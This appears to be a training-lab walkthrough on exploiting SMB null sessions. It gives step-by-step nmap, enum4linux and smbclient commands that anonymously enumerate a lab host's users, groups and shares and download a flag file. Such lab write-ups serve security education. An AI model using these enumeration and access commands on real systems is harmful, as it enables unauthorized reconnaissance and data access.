 # Null Session

# Description

In this lab you can practice different techniques and tools against  machine vulnerable to null session!

# Goal

The final goal of the lab is retrieve information from the target  machine such as shares, users, groups and so on! Moreover by navigating the remote machine, you should be able to find a file name "***Congratulations.txt***". Download it and explore its content.

# Tools

The best tools for this lab are:

[Null Session Attack](https://www.notion.so/Null-Session-Attack-cc22bc1b007741d490dc2dcad9d87d81) 

- emun4linux [Enum4linux](https://www.notion.so/Enum4linux-b9dd926b65f9426b8d61f6fd4b033412)
- samrdump
- smbclient [SMB Enumerating ](https://www.notion.so/SMB-Enumerating-e179260322064d3d8e68be9db8af21b9)
- nmap [NMAP](https://www.notion.so/NMAP-d60aa586077a4e5483a9ad02abd4f32d)

# Solutions

### Step 1 - Find the target network

We first need to verify which the remote network is. We can do it by running *ifconfig* and check the IP address of our *tap0* interface.

```bash
ifconfig
```

![Null%20Sessi%202c5e2/Untitled.png](Null%20Sessi%202c5e2/Untitled.png)

As we can see the target network is **192.168.99.0**/**24** (note that your IP address may be different from the previous screenshot). 

Let's run nmap in order to discover alive hosts on the network:

```bash
nmap -sn 192.168.99.0/24
```

![Null%20Sessi%202c5e2/Untitled%201.png](Null%20Sessi%202c5e2/Untitled%201.png)

The previous screenshot shows that the only host alive on the network is **192.168.99.162** (besides our host: 192.168.99.20).

### Step 2 - Check for null session

Let us target the host found in the previous step and check if it is vulnerable to null sessions. In the following screenshot, we are using **enum4linux**, but you can use any tool you prefer. 

```bash
enum4linux -n 192.168.99.162
```

![Null%20Sessi%202c5e2/Untitled%202.png](Null%20Sessi%202c5e2/Untitled%202.png)

<aside>
💡 **We can see that the File Server Service is active and the string <20> appears in the list.**

</aside>

### Step 3 - Exploit null session

Let us try to gather as much information as we can. To do this we can simply r**un enum4linux with the -a switch**:

```bash
enum4linux -a 192.168.99.162
```

![Null%20Sessi%202c5e2/Untitled%203.png](Null%20Sessi%202c5e2/Untitled%203.png)

As we can see in the previous screenshots, we were able to gather a lot of information from the machine.

### Step 4 - Use SMCLIENT to navigate the target machine

A very useful tool that we can use to access remote shares and browser the remote machine is **smbclient**.

First let us get the list of shares using smbclient:

```bash
smbclient -L WORKGROUP -I 192.168.99.162 -N -U ""
```

![Null%20Sessi%202c5e2/Untitled%204.png](Null%20Sessi%202c5e2/Untitled%204.png)

Let us now try to access the WorkSharing share and see what files are stored in there:

```bash
smbclient \\\\192.168.99.162\\WorkSharing -N
```

![Null%20Sessi%202c5e2/Untitled%205.png](Null%20Sessi%202c5e2/Untitled%205.png)

As we can see in the previous screenshot there is a file named **Congratulations**.**txt**. Let us download it into our machine and then use the *cat* command to display its content.

```bash
get Congratulations.txt
cat Congratulations.txt
```

![Null%20Sessi%202c5e2/Untitled%206.png](Null%20Sessi%202c5e2/Untitled%206.png)

> Congratulations! You have successfully exploited a null session!
>